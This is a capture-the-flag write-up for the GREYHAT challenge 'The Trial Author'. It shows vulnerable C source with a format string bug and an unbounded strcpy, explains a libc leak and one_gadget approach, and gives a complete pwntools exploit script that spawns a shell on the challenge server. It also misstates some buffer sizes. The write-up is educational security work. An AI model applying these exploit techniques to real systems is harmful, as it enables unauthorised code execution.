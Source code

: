 ### The Trial Author 🩸 | 1 Solves 1000 Points
```
The famous GREYHAT book publisher would like to give you a chance to publish your own book and make it book.

Do you have what it takes?

Author: Jin Kai
```
This challenge was blooded by my teammate `elijah5399`

`challenge.c`
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

#define BOOK_NAME_SIZE 0x6
#define PAGE_SIZE 0x100

char ascii_art[] =
"\e[0;31m"
"\t⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡀⠀⠀⡀⠀⠀⠀⠀⠀⠀⠀\n"
"\t⠀⠀⠀⠀⠀⣀⣤⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣿⡟⠀⠀⠀⠀⠀⠀⠀⠀\n"
"\t⠀⠀⠀⠀⠀⠘⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠈⠑⠀⠀⠀⠀⠀⠀⠀⠀\n"
"\t⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣶⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n"
"\t⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⣿⣿⣿⠛⠁⠀⠀⠀⠀⠀⠀⢀⠀⠀⠀⠀⠀⠀⠀\n"
"\t⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠙⢻⡇⠀⠀⠀⠀⠀⠀⠀⠐⠻⠏⠀⠀⠀⠀⠀⠀\n"
"\t⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n"
"\t⠀⠀⠀⠀⣀⡀⢠⣴⣶⣿⣿⣿⣿⣿⡆⢰⣶⠶⠶⠶⠶⠦⣤⡄⢀⣀⠀⠀⠀⠀\n"
"\t⠀⠀⠀⠀⣿⠁⣼⣿⣿⣿⣿⣿⣿⣿⡇⢸⣿⣶⣶⣶⣶⣶⣿⣧⠈⣿⠀⠀⠀⠀\n"
"\t⠀⠀⠀⢠⡍⢀⣿⣿⣿⣿⣿⣿⣿⣿⡇⢸⣿⠛⠛⠛⠛⠛⠻⣿⡀⢻⡇⠀⠀⠀\n"
"\t⠀⠀⠀⠛⠃⣸⣿⣿⣿⣿⣿⣿⣿⣿⡇⢸⣿⠛⠛⠛⣿⡟⠛⢻⣇⠘⣷⠀⠀⠀\n"
"\t⠀⠀⢰⡟⢀⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇⢸⣿⠛⠛⠛⠛⠛⠛⠛⣿⡀⢻⡄⠀⠀\n"
"\t⠀⠀⣾⡇⠘⠟⠛⠛⠉⣉⣉⣉⡉⠛⠃⠘⠛⠛⠛⠛⠛⠛⠛⠲⠿⠃⢸⣧⠀⠀\n"
"\t⠀⢀⣉⣁⣀⣀⣉⣉⣉⣉⣉⣉⣉⣉⣁⣈⣉⣉⣉⣉⣉⣉⣁⣀⣀⣀⣈⣉⡀⠀\n"
"\t⠀⠘⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠃⠀\n"
"\t  welcome to the book factory \n"
"\e[0m";

void vuln() {
	char book_name[BOOK_NAME_SIZE] = {0};
	char page_to_print[PAGE_SIZE] = {0};
	unsigned int num_pages;

	puts("if you write me a good book, i might print it for you");
	printf("book name (%u characters): ", BOOK_NAME_SIZE-1);
	size_t sz = read(0, book_name, BOOK_NAME_SIZE-1);
	if (book_name[sz-1] == '\n')
		book_name[sz-1] = 0;

	printf("how many pages (max %u): ", 10);
	scanf("%u", &num_pages);
	getchar();

	if (num_pages > 10) {
		puts("That is too many pages for this book!");
		return;
	}

	if (num_pages == 0) {
		puts("You have to write at least one page :/");
		return;
	}

	printf("\nyour book '");
	printf(book_name);
	printf("' will have %u pages. write the book!\n", num_pages);

	char** pages = calloc(num_pages, sizeof(char*));
	char* book = calloc(num_pages * PAGE_SIZE, sizeof(char));

	for (int i = 0; i < num_pages; i++) {
		pages[i] = &book[i * PAGE_SIZE];
		printf("Page %u > ", i);
		read(0, pages[i], PAGE_SIZE);
		if (pages[i][sz-1] == '\n')
			pages[i][sz-1] = 0;
	}

	unsigned int chosen_page;
	printf("\nyour book is decent. pick a page and i will print it for you (0 - %u): ", num_pages-1);
	scanf("%u", &chosen_page);
	getchar();

	if (chosen_page >= num_pages) {
		puts("Invalid page!");
		return;
	}

	strcpy(page_to_print, pages[chosen_page]); // uwu rat2libz?
	printf("\nheres your page:\n%s\n", page_to_print);
}

int main() {
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	puts(ascii_art);
	vuln();
}
```

In addition to this, we are also given the `libc.so.6` used to run the challenge.

`main()` calls `vuln()` once and it appears we are expected to be able to pop a shell to access the flag on the service through a single `vuln()` call. Truth be told I didn't manage to find the vulnerability until I saw `elijah5399`'s solve script, which I will also base this writeup upon.

The key idea lies in
```c
strcpy(page_to_print, pages[chosen_page]); // uwu rat2libz?
```

`page_to_print` is a character array with 256 characters, and `pages` consists of 6 character arrays each of size 256. So by right, `pages[chosen_page]` and `page_to_print` should have the same size and thus there should not be any buffer overflow.

However, looking at how `pages` is truly initialised:
```c
	char** pages = calloc(num_pages, sizeof(char*));
	char* book = calloc(num_pages * PAGE_SIZE, sizeof(char));

	for (int i = 0; i < num_pages; i++) {
		pages[i] = &book[i * PAGE_SIZE];
		printf("Page %u > ", i);
		read(0, pages[i], PAGE_SIZE);
		if (pages[i][sz-1] == '\n')
			pages[i][sz-1] = 0;
	}
```

`pages[]` mainly points to a (more or less) 600 sized buffer `book`, and `pages[i]` simply point to every 100th byte index in `book`.

Because of this, suppose my `book[]` has say, 400 `A` characters from 0 to 400. When I do `strcpy(page_to_print, pages[0])`, `pages[0]` points to the start of `book[]` and by the time it ends it would be at the 400th index. Since `strcpy()` has no size restriction unlike its secure `strcpy_s()` counterpart, all 400 bytes in `book[]` will be copied over into `page_to_print` instead!

This forms the basis for our buffer overflow. Since we have the libc, ideally we could create a onegadget that would pop a shell for us. However, ASLR results in the libc address being shifted by an unknown amount, thus we'll need to leak the base libc address somehow.

Thankfully, there is a format string vulnerability in 
```c
    puts("if you write me a good book, i might print it for you");
	printf("book name (%u characters): ", BOOK_NAME_SIZE-1);
	size_t sz = read(0, book_name, BOOK_NAME_SIZE-1);
    ...
	printf("\nyour book '");
	printf(book_name);
```

We find the appropriate offset to leak an address outside the stack frame that points to `__libc_start_main()`, and we leverage this to deduce the libc base.

We call [one_gadget](https://github.com/david942j/one_gadget) to find our gadget in the libc file to pop a shell, and then use the format string + strcpy overflow to pop a shell. And from there, we get the flag.

`exploit.py`
```py
from pwn import *

elf = context.binary = ELF("./challenge")
libc = ELF("./libs/libc.so.6")
ld = ELF("./libs/ld-linux-x86-64.so.2")

if args.REMOTE:
  p = remote("challs.nusgreyhats.org", 32931)
else:
  p = process([ld.path, elf.path], env = {"LD_PRELOAD": libc.path})

p.sendlineafter(b"characters): ", b"%49$p")
p.sendlineafter(b"10): ", b"2")
p.recvuntil(b"your book '")
libc_leak = int(p.recvuntil(b"'")[:-1].decode(),16)
libc.address = libc_leak - (0x00007fa9b84b1c87 - 0x7fa9b8490000)
print(f"libc addr: {hex(libc.address)}")

payload = 312 * b'a'
ONE_GADGET = libc.address + 0x4f29e
payload += p64(ONE_GADGET)
p.sendlineafter(b"> ", payload)
p.sendlineafter(b"(0 - 1): ", b"0")
p.interactive() # grey{strcpy_my_0ne_g4dg3t}
```
